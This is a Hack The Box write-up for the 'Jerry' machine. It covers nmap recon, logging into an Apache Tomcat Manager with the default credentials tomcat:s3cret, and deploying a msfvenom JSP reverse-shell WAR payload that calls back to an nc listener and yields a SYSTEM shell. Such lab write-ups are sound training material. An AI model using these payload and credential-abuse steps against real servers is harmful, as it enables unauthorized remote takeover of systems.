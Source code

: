 # Jerry [HTB](https://app.hackthebox.com/machines/144)
![jerry-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/jerry-01.png)


## Recon 

After adding the target to my `/etc/hosts` file, I scan for open ports with:

```bash
nmap -p- --min-rate 10000 jerry.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/ports-02.png)

Let's run a software and version detection scan againts this port:

```bash
nmap -p 8080 -sCV jerry.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/nmap-res-03.png)

We can see that an Apache Tomcat/Coyote server is running on port 8080. Based on the site's title we can guess that the server is at a fresh install state. 


### Apache-Coyote Port 8080

Before we begin let's answer the following question: 

+ What is Coyote?

From the description of Coyote on the [Tomcat page](https://tomcat.apache.org/tomcat-4.1-doc/config/coyote.html) Coyote is a stand-alone web server that provides servlets to Tomcat applets. That is, it functions like the Apache web server, but for JavaServer Pages (JSP).

It comes with a web interface called the `Manager` which makes it easy to administer and control web applications running in Tomcat using a web browser. Using the Manager, you can deploy a new WAR application and control existing ones without having to restart Tomcat. This should be our exploitation strategy. 

Let's have a look at this server by opening our browser at `http://jerry.htb:8080` :

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/site-04.png)

As you can see, we have three main feature on this page: `Server Status`, `Manager App`, and `Host Manager`. The `Manager App` is what we want access to. Each one of these feature controls different aspects of the Coyote server, and to access each feature we need valid credentials. 

For example, clicking on the `Server Status` button brings the following window:

![login-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/login-05.png)

After a few failed login attempts the server will lock you out for several minutes and display this error page:

![err-page-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/err-page-06.png)

As you can see, this page gives a description on how to add users and roles to adminster the server. And in this page we can see suggested credentilas of `tomcat:s3cret` which I highlighted in red. So I decided to try them out, and they worked!

![logged-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/logged-07.png)

As you can see, the server redirected me to `manager/status`, where we can view different statics and info about the server. But what we really want is to access the server Manager app. 


So I decided to click on the `List Application` button on the left side of the page, and the Manager loads:

![manager-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/manager-08.png)

Meaning, the `Server-Status` feature, and the `Manager App` feature of the Tomcat server reused the same credentials. So we have access to the manager, let's try to upload a WAR payload!

If we scroll down a bit we can see the WAR deployment section:

![deploy-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/deploy-09.png)

This is where we will upload our WAR payload. And as you can see, the server asks for a WAR file to deploy, which we need to create. We can do this with `msfvenom` as such:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=9001 -f war > runme.war
```

![msfvenom-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/msfvenom-10.png)

Now we can click on the `Choose File` button and select the war payload we created:


![choose-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/choose-11.png)

And then select `Deploy`. After that, you should see a new application in the applications list called `runme`:

![new-app-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/new-app-12.png)

The tomcat server created a dedicated directory for the uploaded war application. Once we visit this directory, our WAR payload will execute and we should get a connection back to us.

So before we visit the page we need to start a local listener to catch the connection:

```bash
rlwrap nc -lnvp 9001
```

Now we can visit our malicious war application at `http://jerry.htb:8080/runme/` :

![visit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/visit-13.png)

As you can see this returns an empty page, but on my netcat listener I get a connection:

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/root-14.png)

Apperantly, the Tomcat server was running under `NT Authority` on the target. So when the reverse shell triggered, we got a shell as the system.

If you are after the CTF flags, there is no low level user on this system, only the Administartor user is present. Inside the admin's Desktop page you will find the following directory:

![flags-15]()

There you will find a file that contains both flags. 

